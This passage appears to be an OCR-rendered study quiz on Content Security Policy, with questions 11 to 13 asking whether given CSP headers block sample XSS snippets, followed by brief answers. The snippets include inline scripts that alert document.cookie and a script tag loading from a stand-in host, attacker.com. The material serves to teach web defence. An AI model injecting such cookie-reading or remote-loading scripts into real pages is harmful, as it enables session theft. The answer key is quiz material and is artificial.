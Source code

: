     ***

    Yes, `default-src` is a fallback and since the script-src is defined, it behaves as the previous one

11. Would the following CSP prevent the XSS attack? (Yes/No)

    Why or why not?

    ```http
    Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval'; connect-src 'self'; img-src 'self'; style-src 'self';
    ```

    ```html
    <script>
      alert(document.cookie);
    </script>
    ```

    ***

    Yes, `unsafe-eval` works for the `eval()` runnibg scripts, this is still an inline-script

12. Would the following CSP prevent the XSS attack? (Yes/No)

    Why or why not?

    ```http
    Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval'; connect-src 'self'; img-src 'self'; style-src 'self';
    ```

    ```html
    <script>
      eval("alert(document.cookie)");
    </script>
    ```

    ***

    **Yes**, it's still an inline script after all

13. Would the following CSP prevent the XSS attack? (Yes/No)

    Why or why not?

    ```http
    Content-Security-Policy: default-src *; script-src 'self'; connect-src *; img-src *; style-src *;
    ```

    ```html
    <script src="https://attacker.com/xss.js"></script>
    ```

    ***

    Yes, `script-src` is defined so it doesn't fallback to `default-src`

